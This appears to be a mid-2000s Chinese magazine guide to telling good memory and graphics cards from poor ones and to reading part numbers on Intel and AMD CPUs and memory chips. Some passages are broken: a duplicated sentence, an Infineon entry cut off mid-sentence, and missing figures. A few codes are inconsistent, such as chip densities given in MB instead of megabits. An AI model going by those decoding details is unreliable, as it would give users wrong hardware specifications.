现在从DDR400内存开始，大多数内存的PCB都采用了6层设计，其中第2层为接地层，第5层为电源层，其余4层均为信号层。采用6层PCB板，有4层可以走信号线，表面布线比较宽松(同层布线)，大面积覆铜设计，能降低EMI(电磁干扰)。但是有些小品牌为了控制成本（不排除某些大品牌也有这样的行为）而采用4层板，然后使用单面。4层PCB板在系统稳定性以及超频能力上远远不如6层PCB板设计的内存。如图7所示为内存上面的6层PCB标识数字。

#### 3. 内存金手指

内存的金手指通常有两种制造方法——电镀和化学镀。电镀金手指耐磨度和电气性能都比化学镀的好，电镀技术能够薄至20微米，不过肉眼很难看得出。电镀的金手指在末端会有一个“小辫子”，这是生产工艺造成，电镀必须要各金手指是导通的，电镀完后再分板将导通线切断。选购内存时只要细心观察就能发现。由于出厂时检验部门会对产品的合格率进行检测，因此内存一般会进过了一次拔插，金手指部位会有轻微的痕迹，可能会使观察“小辫子”不太明显，可多换几条观察就可以了（如图8）。

#### 4. 生产工艺

对于那些做工比较好，用料比较好的内存来说，它的内存颗粒、电阻、电容等焊接点圆滑饱满、富有光泽，说明在生产中对选料、流程把控很严（如图9）。用手指轻轻摸过接触焊接点，如果有刮手的感觉或者感觉棱角分明，说明做工比较粗糙。如果发现光泽度不是很好，表明这些部位抗氧化性不好，特别注意散装内存，由于没有包装保护，表面很容易刮伤。

大家可以根据以上的几点特征到市场上面去检验一番，在购买内存的时候建议大家还是购买盒装产品，如果商家允许，不妨打开包装也细细检查一下。要知道盒装与散装内存并不在于包装的那点价差，有些时候是一个质量等级的差别。

### 三、识别显示卡的优劣

现在市面上的显卡种类繁多，ATI和nVIDIA为了争夺显卡市场的占有率，今年连连推出了多种的高、中、低端显卡芯片，而众多的显卡厂商都拿出了做工、质量不同的各种显卡，在众多的品牌、芯片中要挑出一块让人满意的显卡确实有的头晕。除了选择不同的显示芯片之外，我们在选购显示卡的时候，还应该学会“看卡辨优劣”的本领哦。其实显示卡身上有几个重要的部分，我们只要注意观察这几个部位，就很容易能够判断出一块卡的优劣了。

#### 1. PCB设计

看板卡的优劣，最优先的都应该去看PCB设计，因为这是板卡的“基本”。对于一块显卡，好的PCB电路设计尤为重要，显卡的电路设计中分为公板和非公板设计，公板就是保证了卡的做工和用料，有的非公板要比公板缩水点。而有的非公板，做工和用料要比公板更好，因此这些非公板的超频性能就要比公板更好了。目前显卡使用的PCB从4层到8层不等，由于多层板的电路连接是通过埋孔和盲孔技术，6层以上PCB可以有充足的布线空间，也有更多的地线和电源的考虑方案，这样线长和线间的电磁干扰都会充分得到考虑，因此板卡的稳定性自然也就明显好于4层板的同类产品。至于如何分辨层数，大家可以参考上文主板PCB的分辨方法。

#### 2. 注意空焊位

要看一款显卡的做工，首先我们应当留意显卡上的空焊位，如果空焊位过多则表明省略了过多的元件，这绝对不是一个好现象。作为做工扎实，用料足的大厂显卡，空焊位都是比较少见的。如图10就是一块空焊位较多的显卡，前端只有寥寥几个电容。

#### 3. 电容

显示卡上面有很多的电容，我们需要注意的电容应该是位于显卡供电电路部分的，这些电容主要起滤波作用，通过这些电容，可以过滤掉电源中不纯净的那一部分杂波，使显卡供电更加稳定（如图11）。电容品质的优劣直接决定了显卡工作的稳定性和显卡的使用寿命。准确地说，贴片铝电解电容和直插铝电解电容之间唯一的区别是它们的封装形式不同，由于技术都已经非常成熟，所以封装形式并不能决定其品质。相同品质的贴片铝电解电容售价比直插铝电解电容略高，但由于贴片铝电解电容适合大规模机械化生产，所以安装成本较低，综合以上，生产成本贴片铝电解电容售价比直插铝电解电容略高，但差距几乎可以忽略。

#### 4. 显卡散热器

散热器往往不是用户注意的地方，而且是比较容易误解的地方。一款好的散热器和一款廉价的散热器在成本价格方面差距不小，但用户往往只注意散热器的尺寸、颜色，而忽略了其细节的做工和风扇的品质。当然并非所有显卡都需要风扇，一些低端显卡核心发热量不高，不超频根本无需风扇帮助散热，如果单单为增加显卡外观上的噱头，安装一些廉价低质的风扇，反而会导致可靠性降低。因为廉价低质的风扇出毛病的几率很大，相信很多用户都遇到显卡风扇损坏的问题。这种情况一般会出现在使用一年以后，先是风扇噪音逐渐增大，最后彻底停转。做工出色的散热片，应该是翅片非常密集，散热面积大(如图12)，做工差的散热器和风扇，翅片稀疏，风扇是普通的非滚珠轴承。

#### 5. 显存颗粒

历来很多厂商都喜欢在显存芯片上做文章，比如显存速度、类型等，所以在这方面，消费者的关注度一直是比较高的，相对缩水的情况也就比较容易辨别。不过仍然可以看到，在一些低端显卡上会进行缩水。显存的类型是用户选择首先要注意的一点。DDR、GDDR2、GDDR3（如图13）显存所能支持的速度越来越高，电气性能也越好、发热量也越低，因此选择越是高规格的显存当然也就越好。当然，低端显卡有时并没必要配备很高规格的显存，即使显存配备很高的规格，但PCB电气特性达不到一定标准，显存也无法上到很高的频率，有种有劲使不上的感觉。但即便如此，显存的速度也不应该太慢。目前GDDR3显存，最快的达到1.6纳秒，GDDR2以及DDR次之。低端的Radeon 9250以及GeForce FX5200上搭配的颗粒最慢速度不应该低于5纳秒，如果你看到6纳秒甚至更慢的显存，那就不要考虑了，因为它们的性能肯定很差。

另外显存芯片的品牌也不能忽视，因为显存芯片的生产厂家有限，所以我们在显卡上看到的显存品牌大多也很熟悉，目前性能和品质最好的显存芯片首推三星，还有一些国际大厂的品牌也不错，比如现代和英飞凌。

#### 6. 低通滤波电路

在不少低端显卡上可以看到这样的现象，在接近输出接口的位置有大量的空焊电路，这些都是原本应该有的低通滤波电路。显卡低通滤波电路是否缩水直接关系到显卡的2D画质，所以我们不能忽视这一点。虽然目前显卡的2D画质已经差距很小，但是缩水显卡画质输出不稳定，遇到机箱内其他硬件带来的干扰就露馅了。另外低通滤波电路是显卡输出的最后一道关卡，良好的设计和完整的电路对于显卡的2D画质的影响很大。虽然目前显卡的2D画质已经差距很小，但是低端显卡PCB层数少，基本的滤波电路还是非常需要的。我们可以看到，图14是一个完整的低通滤波电路，而图15则是缩水了的低通滤波电路，后者的低通滤波电路全部被省掉，只能看到空空的焊接点。此外一些显卡只在DVI或者S-Video接口附近做完整的滤波电路，而常用的D-Sub接口却忽略掉，同样对显卡画质有影响。

#### 7. 电感元件

电感也是显卡常用的电子元件，它往往出现在供电电路中，配合电容、MOS管等使用。电感一般不会为用户注意，也没有品牌方面的考虑，但是它经常裸露在外，容易受到灰尘和潮湿的考验。裸露的电感在显卡上非常常见，尤其是低端显卡，相比较而言，单根的粗铜线绕组总是要比多根细铜线共同绕组要好一些（如图16：上为单根铜线，下为多根铜线）。另外有些电感因为增加了底座，所以在与PCB的连接方面会比前两者都要好很多，焊脚部分不会因为灰尘的侵入而导致接触不良等毛病。目前最好的电感就是带有屏蔽盒的电感，基本上高端显卡才会采用的，这种带有屏蔽盒的电感自然是电气性能最好的，不仅彻底隔绝了灰尘和潮气，还能屏蔽来自机箱内部其他元件带来的电磁干扰。

## 轻松认识硬件编号

文 / 水月子

无论是在装机还是在购买配件的过程之中，我们都要小心被无处不在的奸商蒙骗，最好的方法自然就是充实我们自己的硬件知识了，同时我们也应该“训练有素”，能够在没有旁人帮助的条件下来辨识、挑选硬件。当然能够做到这一点并不容易，就让我们一步一步来学习吧。

### 一、辨别Intel CPU编号

CPU的编号是用来分辨CPU的型号、参数甚至是真假的最重要依据，我们不但要根据参数判断CPU是否就是我们所需要的，还要判断这块CPU是不是货不对版的“Remark”品，下面我们就来学习一下如何辨别Intel CPU的编号。首先我们来看看如图1的Intel CPU，这是一颗双核的Pentium D CPU，代号是805。我们可以看到它的编号里面除了Intel和Pentium的商标之外一共有三行，其中第一行上面字母“805”就是代表了CPU的代号，SL8ZH是CPU的批次，MALAY代表的是这颗CPU产自马来西亚的Intel工厂，第二行是CPU的参数配置，频率是2.66GHz，二级缓存一共有2MB，CPU的前端总线是533，至于最后一行我们不需要理会。

#### 1. 辨识单核Intel

虽说以后Intel的CPU都是双核的，不过目前市面上还是存在大量的单核P4以及赛扬CPU，因此我们也要学学如何辨识这些单核CPU的编号，毕竟它们的编号和双核的P4有所不同。

- 1. 赛扬D系列

在Intel的CPU里面，代号是3**开头的就代表了256KB L2 Cache, Prescott 核心的赛扬D，这个系列的CPU外频都是133，频率从赛扬D 310开始，频率是133 × 16，之后编号末位数每+5，倍频就+1。一般情况下赛扬D都是478接口的，但如果编号后面有一个J，譬如赛扬D 330J，那就代表这款CPU是LGA 775接口了。至于64位的赛扬D则是在最后一位数上加1，譬如赛扬D331就是64位的赛扬D330了。

- 2. 旧Prescott核心P4

凡是代号是5**开头的P4，都代表了二级缓存1MB，Prescott核心的P4，外频有133和200两种。其中P4 505、510、515的外频都是133，频率分别是133 × 20、133 × 21和133 × 22，从P4 520开始外频都是200而且支持超线程。如果我们看到了5**系列P4后面还有一个字母J，那就代表CPU具有Execute Disable Bit（硬件防病毒）功能，同样如果末尾加上了1就代表该处理器支持64位，譬如P4 506和P4 505的区别就在于是否支持64位。

- 3. 新Prescott核心P4

代号是6**系列的P4二级缓存都达到了2MB，采用的核心同样是Prescott，但外频全部都是200，而且全部支持超线程、64位、硬件防病毒技术等等，可以说是P4里面的最高等级。

#### 2. 辨识双核Intel

Intel的桌面双核CPU中有两个类别，分别是PentiumD和酷睿2，酷睿2目前市面上的种类不多，因此辨认的时候难度不高，我们主要还是学会如何分辨Pentium D的编号。

- 8** 系列：

代号是8**的双核CPU核心都是Prescott，每个核心单独拥有1MB L2 Cache（合共2MB），支持64位和硬件防病毒、SpeedStep省电技术，遗憾的是没有超线程技术。其中系列里面以0结尾的产品，包括820/830/840，前端总线都是800Mhz，编号以5结尾的产品，前端总线就只有533Mhz。唯一一个支持超线程技术的就是P4XE 840。

- 9** 系列：

代号是9**的双核Pentium D采用的核心都是Presler，制程是最新的65nm，拥有更低的能耗和发热量，同时每个核心都拥有2MB的二级缓存（合共4MB），性能要比8**系列更强。所有9系列的CPU前端总线都是800Mhz，但是其中以数字“5”结尾的CPU的特别之处就在于他们不支持Intel的VT虚拟化技术，这项技术让一个平台能在独立的分区或“容器”内执行多个操作系统与应用程序，往往是应用在服务器和工作站上面，对一般台式机用户影响不大。

除了看CPU的代号和编号之外，一般在Intel CPU表面面的编号旁还有一个批次号码，这个号码虽然没有规律，但我们依旧可以根据Intel的批次对照表大概知道这些CPU的配置（如图2）。

| CPU批号 | 主频 | 总线频率 | 工艺制程 | 步进 | 缓存大小 | 封装形式 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| SL82U | 3.80 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL8J7 | 3.80 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7P2 | 3.80 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL723 | 3.80 GHz | 800 MHz | 90 nm | N0 | 2 MB | 775 pin PLGA |
| SL724 | 3.73 GHz | 1066 MHz | 90 nm | N0 | 2 MB | 775 pin PLGA |
| SL7Q2 | 3.60 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL8J6 | 3.60 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL725 | 3.60 GHz | 800 MHz | 90 nm | N0 | 2 MB | 775 pin PLGA |
| SL7NZ | 3.60 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7L9 | 3.60 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7J9 | 3.60 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7KN | 3.60 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7JB | 3.40 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7L8 | 3.40 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL793 | 3.40 GHz | 800 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL7PY | 3.40 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7KD | 3.40 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL7B9 | 3.40 GHz | 800 MHz | 90 nm | C0 | 1 MB | 478 pin PPGA |
| SL7PZ | 3.40 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL727 | 3.40 GHz | 800 MHz | 90 nm | N0 | 2 MB | 775 pin PLGA |
| SL7KM | 3.40 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7PP | 3.40 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL7A1 | 3.40 GHz | 800 MHz | 90 nm | C0 | 1 MB | 478 pin PPGA |
| SL8J5 | 3.40 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7E6 | 3.40 GHz | 800 MHz | 90 nm | D0 | 1 MB | 478 pin PPGA |
| SL6WE | 3.20 GHz | 800 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL7PX | 3.20 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7PW | 3.20 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7KC | 3.20 GHz | 800 MHz | 90 nm | D0 | 1 MB | 478 pin PPGA |
| SL7JZ | 3.20 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL88K | 3.20 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL7KL | 3.20 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7PN | 3.20 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL7B8 | 3.20 GHz | 800 MHz | 90 nm | C0 | 1 MB | 478 pin PPGA |
| SL79M | 3.20 GHz | 800 MHz | 90 nm | C0 | 1 MB | 478 pin PPGA |
| SL7E5 | 3.20 GHz | 800 MHz | 90 nm | D0 | 1 MB | 478 pin PPGA |
| SL8J2 | 3.20 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL6S5 | 3.06 GHz | 533 MHz | 130nm | C1 | 512K | 478 pin PPGA |
| SL6K7 | 3.06 GHz | 533 MHz | 130nm | C1 | 512K | 478 pin PPGA |
| SL6PG | 3.06 GHz | 533 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL87L | 3.06 GHz | 533 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL6JJ | 3.06 GHz | 533 MHz | 130nm | C1 | 512K | 478 pin PPGA |
| SL6SM | 3.06 GHz | 533 MHz | 130nm | C1 | 512K | 478 pin PPGA |
| SL6QC | 3.06 GHz | 533 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL7KK | 3.00 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7PM | 3.00 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL79L | 3.00 GHz | 800 MHz | 90 nm | C0 | 1 MB | 478 pin PPGA |
| SL7PU | 3.00 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL7KB | 3.00 GHz | 800 MHz | 90 nm | D0 | 1 MB | 478 pin PPGA |
| SL7Z9 | 3.00 GHz | 800 MHz | 90 nm | N0 | 2 MB | 775 pin PLGA |
| SL7BK | 3.00 GHz | 800 MHz | 130nm | M0 | 512K | 478 pin PPGA |
| SL782 | 3.00 GHz | 800 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL6WU | 3.00 GHz | 800 MHz | 130nm | D1 | 512K | 478 pin PPGA |
| SL88J | 3.00 GHz | 800 MHz | 90 nm | E0 | 1 MB | 478 pin PPGA |
| SL7J6 | 3.00 GHz | 800 MHz | 90 nm | D0 | 1 MB | 775 pin PLGA |
| SL7E4 | 3.00 GHz | 800 MHz | 90 nm | D0 | 1 MB | 478 pin PPGA |
| SL8HZ | 3.00 GHz | 800 MHz | 90 nm | E0 | 1 MB | 775 pin PLGA |
| SL6WK | 3.00 GHz | 800 MHz | 130nm | D1 | 512K | 478 pin PPGA |

图 2

## 二、辨别 AMD CPU 编号

和 Intel 的 CPU 比起来，AMD 显得有规律得多了，我们可以用一定的公式来看懂它的 CPU 上面的编号，从而知道这款 CPU 的型号、频率、制程甚至是电压等，对于初学者而言可以防止买到货不对版的 CPU，对于高手而言，则可以根据电压来购买一些超频能力强的 CPU，获得最佳的性价比！

首先要说明的是，由于 AMD CPU 有金属外壳封装和普通封装两种，如果是金属外壳的话那么编号一般都会刻在外壳上面，如果是普通封装那么一般都会印在 CPU 表面的贴上。我们可以看看如图 3 的 Sempron 2600 +，它其中的一段编号 “SDA2600AIOBA” 就是我们要去弄懂的东西了。不要看这一段编号似乎没有什么意义，其实我们可以把它按照顺序拆开来看。


图 3

#### 1. 头三个字母= CPU 类型

在编号之中的头三个字母“SDA”就是代表了 CPU 的类型，SDA 就是指 Sempron 系列，而 ADA 则是指 Athlon 64 系列，它的编号是 “ADA”，ADA(X2)则指双核 Athlon 64 X2 系列。

#### 2. 连续四个数字= CPU PR 值

大家都知道，AMD CPU 的 2600 + 并不就是说它的频率有 2.6G，只是一个 PR 标称值而已，在头三个字母后面的这四个数字就是代表了这个值，也就是 CPU 速度的档次，至于 CPU 的真实频率，我们可以看看图 4 来对照一下。

| 代码 | 所属类型 | PR值 | 主频(MHz) |
| :--- | :--- | :--- | :--- |
| ADA | AMD Athlon 64 | 2800 | 1800 |
| ADA | AMD Athlon 64 | 3000 | 1800, 2000 |
| ADA | AMD Athlon 64 | 3200 | 2000, 2200 |
| ADA | AMD Athlon 64 | 3400, 3500 | 2200MHZ |
| ADA | AMD Athlon 64 | 3700, 3800 | 2400MHZ |
| ADA | AMD Athlon 64 | 4000 | 2400MHZ |
| ADA(X2) | AMD Athlon 64 X2(双核) | 4200, 4400 | 2200MHZ |
| ADA(X2) | AMD Athlon 64 X2(双核) | 4600, 4800 | 2400MHZ |
| SDA | AMD Sempron | 2500 | 1400MHZ |
| SDA | AMD Sempron | 2600, 2800 | 1600MHZ |
| SDA | AMD Sempron | 3000, 3100, 3200 | 1800MHZ |
| SDA | AMD Sempron | 3300, 3400, 3500 | 2000MHZ |

图 4

#### 3. PR标称值后第一个字母 = 规格与封装

AMD 的CPU 有多种针脚规格，包括754、940、939等等，一不小心看错了针脚的话，CPU 就无法和主板匹配了。在PR 标称值后面的那个英文字母代表的就是CPU 规格和封装。如果英文字母是“A”，代表的就是Socket 754普通封装；“B”代表金属外壳封装的Socket 754；“C”代表金属外壳的Socket 940；“D”代表金属外壳的Socket 939，一般是Athlon 64；“E”代表金属外壳封装的Socket 940，和“C”是一样的。

#### 4. 封装后的一位英文字母 = 核心工作电压

紧随着封装规则的字母后面还有一个字母，代表了CPU 的核心工作电压。在我们的例子里面，Sempron 2600 + 的字母是“I”，代表电压是1.40V，至于其他字母所代表的电压我们可以看看图5。

| 字母 | 电压 |
| :--- | :--- |
| A | 1.35-1.40V |
| C | 1.55V |
| E | 1.50V |
| I | 1.40V |
| K | 1.35V |
| M | 1.30V |
| O | 1.25V |
| Q | 1.20V |
| S | 1.15V |

图 5

#### 5. 电压后一位数字 = 极限温度

这一位数字代表了你的CPU 的极限温度，譬如这里我们看到的数字是“0”，就代表了Sempron 2600 + 的温度极限是69度。至于别的CPU 我们可以看看如图6 的表格。

| 字母 | 最高温度 |
| :--- | :--- |
| A | 不确定 |
| I | 63度 |
| K | 65度 |
| M | 67度 |
| O | 69度 |
| P | 70度 |
| X | 95度 |
| Y | 100度 |

图 6

#### 6. 温度后一位数字 = 二级缓存

二级缓存的大小和CPU 的性能有非常直接的关系，这也是初学者在购买CPU 的时候最容易被奸商蒙骗的一个地方。在这里数字“2”代表的是CPU 的二级缓存有128KB，“3”代表的是256KB 的二级缓存，“4”代表的是512KB 的二级缓存，“5”代表的是1024KB（1MB）的二级缓存，“6”代表的是2048KB（2MB）的二级缓存。

#### 7. 最后两个字母 = CPU制程

在编号里面的最后两个字母，我们可以得知这个CPU 的制造工艺究竟是什么，如果开头的字母是“A”，或者字母是“LA”，那么就是0.13微米工艺；如果是B 或者C 开头，或者字母是“LD”的就是90nm 工艺了。后者的能耗和发热量都要低于前者。

或者字母是“LD”的就是90nm 工艺了。后者的能耗和发热量都要低于前者。

## 三、分辨DDR 内存编号

虽说现在DDR2 内存大行其道，但还是有相当一部分朋友是在使用DDR 内存的，其中包括了广大的AMD 用户，因此我们在购买DDR 内存的时候，一定要提前学会如何分辨内存颗粒上面的编号，这样才不容易被奸商骗，或者自己买错的内存。

#### 1. Kingston 内存编号

Kingston 的编码一般是这种排列：“KVR400X64C25/256”，我们可以按照图7 的间隔把这段编号分成8 个部分，每个部分的意义分别是如下：KVR 代表kingston value RAM；400 是外频速度，这条内存显然是DDR 400；一般为X，没有太多意义；64 为没有ECC，72 代表有ECC；有S字符表示笔记本专用内存，没有S 字符表示普通的台式机或者是服务器内存；3代表CAS = 3，25代表CAS = 2.5，2代表CAS = 2；分隔符号；内存的容量，这条内存的容量是256MB 的。

| KVR | *** | X | ** | * | C* | / | *** |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 |

图 7

#### 2. HY 内存编号

除了现代原装内存之外，很多别的内存也都使用HY的显存颗粒，HY的内存编号一般都是字母“HY”开头，而后面的一串数字则是按照图8 来进行分隔：HY 内存的标识；内存芯片类型，一般都是5D，代表DDR 内存；工作电压，空白 = 5V、V = 3.3V、U = 2.5V；芯片容量和刷新速率，16 = 16Mbits/4K Ref、64 = 64Mbits/8K Ref、65 = 64Mbits/4K Ref、128 = 128Mbits/8K Ref、129 = 128Mbits/4K Ref、256 = 256Mbits/16K Ref、257 = 256Mbits/8K Ref；内存颗粒数据位宽，40、80、16、32分别代表4位、8位、16位和32位；颗粒BANK 数量，1、2、3分别代表2个、4个和8个Bank，是2的幂次关系；内存颗粒I/O 界面，1代表SSTL_3，2代表SSTL_2；芯片内核版本，可以为空白或A、B、C、D等字母，越往后代表内核越新；颗粒功耗，L = 低功耗芯片，空白=普通芯片；芯片封装，JC = 400mil SOJ、TC = 400mil TSOP-Ⅱ、TD = 13mm TSOP-Ⅱ、TG = 16mm TSOP-Ⅱ；内存颗粒频率，55 = 183MHZ、5 = 200MHZ、45 = 222MHZ、43 = 233MHZ、4 = 250MHZ、33 = 300NHZ、L = DDR200、H = DDR266B、K = DDR266A。

| HY | XX | X | XX | XX | X | X | X | X | X | XX |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 |

图 8

### 3. Apacer（宇瞻）内存编号：

Apacer的内存编号都是以W开头的，分隔方式如图9：W代表内存颗粒由Winbond生产；显存类型，94为DDR RAM；颗粒版本号，一般是B和H；封装，H为TSOP封装，B为BGA封装，D为LQFP封装；速度和频率，0 = 10ns/100MHz、8 = 8ns/125MHz、Z = 7.5ns/133MHz、Y = 6.7ns/150MHz、6 = 6ns/166MHz、5 = 5ns/200MHz。


### 4. 东芝内存编号：

东芝的内存编号都是以TC开头的，代表是TOSHIBA的产品，我们可以按照图10的分隔方法来读取它的编号：TC代表是东芝的商标；内存型号；内存种类，S = 普通SDRAM、R = Rambus SDRAM、W = DDR SDRAM；容量，64 = 64Mb、M7 = 128Mb；数据位宽，04、08、16、32分别代表4位、8位、16位和32位；内核的版本，可以为空白或A、B、C等字母，越往后代表内核越新；封装：FT为TSO II封装；内存功耗，L = 低功耗、空白 = 普通；代表速度：75 = 7.5ns/133MHz、80 = 8ns/125MHz、10 = 10ns/100MHz


#### 5. 三星DDR内存编号

在DDR内存的市场上，三星的DDR内存销量可以说是最大的。搞清楚内存颗粒上的编号的含义对于我们的选购是很有好处的，我们可以按照如图11的方法分隔读取其编号：KM或者K表示相应的内存颗粒是三星生产；芯片类型，4表示DDR SDRAM；芯片数据位宽，40、80、16、32分别代表4位、8位、16位和32位；工作电压，H = 3.3V、L = 2.5V；内存颗粒密度，4 = 4Mbit、8 = 8 Mbit、16 = 16 Mbit、32 = 32 Mbit、64 = 64 Mbit、12 = 128 Mbit、25 = 256 Mbit、51 = 512 Mbit；颗粒容量和刷新率，0 = 64m/4K/15.6 μs、1 = 32m/2K/15.6 μs、2 = 128m/8K/15.6 μs、3 = 64m/8K/7.8 μs、4 = 128m/16K/7.8 μs；内存排数，3 = 4排、4 = 8排；接口电压，0 = LVTTL + SSTL_3(3.3V)、1 = SSTL_2(2.5V)；封装，T = 66针TSOP II、B = BGA、C = 微型BGA(CSP)；频率，0 = 10ns/100MHz(200Mbps)、8 = 8ns/125MHz(250Mbps)、Z = 7.5ns/133MHz(266Mbps)、Y = 6.7ns/150MHz(300Mbps)、6 = 6ns/166MHz(333Mbps)、5 = 5ns/200MHz(400Mbps)


### 四、分辨DDR2内存编号

对于大多数使用Intel CPU的朋友来说，用上DDR2内存的确是一件幸福的事情，因为它的速度要比DDR内存快不少，我们要购买DDR2内存的时候，同样要学会去识别内存颗粒上面的编号。下面我就介绍目前市面上最常见的现代、三星、英飞凌、南亚等DDR2内存编号的识别方法给大家。

#### 1. 现代DDR2颗粒

就拿一块编号是HY5PS12821F-C4的现代DDR2内存颗粒为例子，和DDR内存一样，我们可以将这组编号分成几个部分：HY，现代内存；5P，DDR2；S，工作电压1.8V；12，512MB容量，如果是28则为128MB，56则为256MB，1G则为1GB，2G则为2GB；8，位宽×8，如果是4则位宽为×4，16则为×16，32则为×32；2，逻辑Bank数量为4Banks，如果是1则为2Banks，3则为8Banks；1，接口类型为SSTL-18，如果是2则为SSTL-2；F，封装类型为FBGA Single Die，如果是S则为FBGA Stack，M则为FBGA DDP；C4，速度为DDR2 533 4-4-4，如果是S6则为DDR2 800 6-6-6，S5则为DDR2 800 5-5-5，Y6为DDR2 677 6-6-6，Y5为DDR2 677 5-5-5，Y4为DDR2 677 4-4-4，C5为DDR2 533 5-5-5，C3为DDR2 533 3-3-3。

#### 2. 三星DDR2内存颗粒（如图12）

在上图中我们可以看到DDR2内存颗粒上面的编号，譬如编号是K4T51083QB-GCD5，这其中有我们可以把它分成10部分，分别是：K4，Memory DRAM；T，DDR2；51，512MB容量，如果是56则是256MB容量，1G为1GB容量，2G为2GB容量；08，位宽×8，如果是04则为位宽×4，16为×16；3，逻辑Bank数量为4Banks，如果是4则为8Banks；Q，接口类型工作电压为SSTL 1.8V；B，产品版本为3rd Generation，C为4th Generation，DEFGH以此类推；G，封装类型为FBGA，如果是S则为FBGA（Small），Z为FBGA-LF，Y则为FGBA-LF（Small）；C，普通能耗，如果是L则为低能耗；D5，速度为DDR2 533 4-4-4，如果是D6则为DDR2 677 4-4-4，如果是E6则为DDR2 677 5-5-5，如果是F7则为DDR2 800 6-6-6。


#### 3. 英飞凌（Infineon）DDR2内存编号（如图13）

作为编号是HYB18T512800AF37的内存颗粒，我们可以把它分隔成9个部分，每个部分的意义分别是：HYB，就像现代的HY、三星的K4一样是为英飞凌内存颗粒的编号的前缀；18，工作电压为1.8V；T，DDR2；512，容量为512MB，如果是


#### 4.南亚DDR2内存颗粒

对于一颗编号是NT5TU64M8AF-37B的南亚DDR2内存颗粒，我们可以这样识别：NT，南亚科技；5T，DDR2；U，接口和电压为SSTL 1.8V；64M8，容量为512MB，其亦可为128M4或者32M16，同理256MB容量的标志为64M4或者32M8或者16M16；A，产品版本1st Version，B为2nd Version，C、D、E依此类推；F，封装类型84Ball BGA；37B，速度为DDR2 533 4-4-4，3B为DDR2 677 4-4-4。

### 五、分辨显存编号

目前主流的显示卡就只有ATI和nVidia两家，总的来说在显示卡芯片上面做假的可能性不大，当然也不排除有些奸商铤而走险，但是对于显存来说其中的猫腻就大了，同样一个档次的显示卡，由于显存的性能不同，很可能价格就相差很远，自然性能也有很大的不同了，因此在购买显示卡的时候，我们应该学会去如何看显存颗粒。目前的显示卡所采用的显存颗粒有很多，主流的就是现代、三星，其余的还有英飞凌、Elixir、晶豪、钰创、茂矽等等。

#### 1.HY（现代）显存颗粒

目前HY的显存颗粒主要有两种封装，分别是TSOP封装和BGA封装。首先我们看看TSOP封装的编号规律（如图14），图15则是BGA封装的编号规律。无论TSOP还是BGA封装，它们的编码位置也许不同，但是所代表的意义都是一样的。对于表示容量的两位代码，64、66表示64MBits（8MB），28 = 128Mbits，56、57 = 256Mbits，12 = 512Mbits，1G = 1GBits。接着两位表示位宽的代码意义也不难理解，16表示16位，32就表示32位。表示时钟周期的两位（或一位）代码，4表示4ns，5表示5ns；25、28、36分别表示2.5ns、2.8ns和3.6ns，简而言之你看到的数字是一个的话那么时钟周期就是那个，两个的话就在中间加个小数点。


#### 2.三星显存颗粒

和HY的显存一样，三星的显存颗粒主要也有TSOP和BGA两种封装，它们的编号规律分别是图16的TSOP封装和图17的BGA封装。与HY的类似，三星显存对于表示容量的两位代码，62、64 = 64MBits，26、28 = 128MBits，54、55、56 = 256MBits，51、52 = 512Mbits。表示位宽的两个数字则没什么特别，16表示16位，32表示32位。表示时钟周期的两位也和HY一样，直接看数字，中间再加个小数点；但有比较特别的几个编号值得我们注意：2A = 2.86ns，2C = 2.66ns。


#### 3.EtronTech（钰创）

钰创的显存颗粒主要是TSOP封装的，如图18所示。其中表示容量的代码比较难理解：658 = 64MBits，6A9 = 128MBits，6AA = 256MBits，至于位宽则是用非常直观的两位代码来表示，16 = 16位，32 = 32位。最后一位时钟周期也和上面所提到的一样，4就表示4ns。

#### 4.Infineon（英飞凌）

英飞凌的显存颗粒主要是BGA封装的，而且最容易被人理解，我们看图19就足以完全明白了。显存的性能，我们必须了解这些编号。

